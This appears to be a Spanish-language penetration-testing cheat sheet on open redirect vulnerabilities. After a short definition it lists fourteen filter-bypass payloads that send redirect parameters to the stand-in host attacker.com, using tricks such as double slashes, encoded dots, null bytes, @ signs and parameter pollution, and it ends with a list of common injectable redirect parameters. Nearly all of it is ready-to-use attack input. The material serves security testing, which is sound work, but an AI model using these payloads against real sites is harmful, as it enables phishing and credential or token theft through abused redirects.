 # Open Redirect

Las vulnerabilidades de redirección abierta surgen cuando una aplicación incorpora datos controlables por el usuario en el objetivo de una redirección de forma no segura. Un atacante puede construir una URL dentro de la aplicación que provoque una redirección a un dominio externo arbitrario

A veces se puede encontrar en las páginas de inicio de sesión/registro/cierre de sesión, como también comprobando el código fuente de javascript

# Explotando

1 - Prueba a cambiar el dominio

    /?redir=attacker.com
    
2 - Uso de un dominio o una palabra clave incluidos en la white list

    /?redir=target.com.attacker.com
    
3 - Usando // para bypass la palabra http de la black list

    /?redir=//attacker.com
    
4 - Usando https: para bypass // de la black list

    /?redir=https:atacker.com
    
5 - Using \\ para bypass // de la black list

    /?redir=\\attacker.com
    
6 - Using \/\/ para bypass // de la black list

    /?redir=\/\/attacker.com/
    /?redir=/\/attacker.com/
    
7 - Usando %E3%80%82 para bypass el . de la black list

    /?redir=attacker%E3%80%82com
    
8 - Usando un null byte %00 para bypass el filtro de la black list

    /?redir=//attacker%00.com
    
9 - Usando parameter pollution

    /?next=host.com&next=attacker.com
    
10 - Usando @ o %40 (el navegador redirigirá a cualquier cosa después del @)

    /?redir=host.com@attacker.com
    /?redir=host.com%40attacker.com
    
11 - Usando el carácter ? (el navegador lo traducirá a /?)

    /?redir=host.com?attacker.com
    
12 - Omita el filtro si solo verifica el nombre de dominio usando %23

    /?redir=host.com%23attacker.com

13 - Usando el símbolo ° para bypass

    /?redir=host.com/°attacker.com
    
14 - Omita el filtro si solo le permite controlar la ruta usando un null byte %0d o %0a

    /?redir=/%0d/attacker.com
    /?redir=/%0a/attacker.com

# Common injection parameters

    /{payload}
    ?next={payload}
    ?url={payload}
    ?target={payload}
    ?rurl={payload}
    ?dest={payload}
    ?destination={payload}
    ?redir={payload}
    ?redirect_uri={payload}
    ?redirect_url={payload}
    ?redirect={payload}
    /redirect/{payload}
    /cgi-bin/redirect.cgi?{payload}
    /out/{payload}
    /out?{payload}
    ?view={payload}
    /login?to={payload}
    ?image_url={payload}
    ?go={payload}
    ?return={payload}
    ?returnTo={payload}
    ?return_to={payload}
    ?checkout_url={payload}

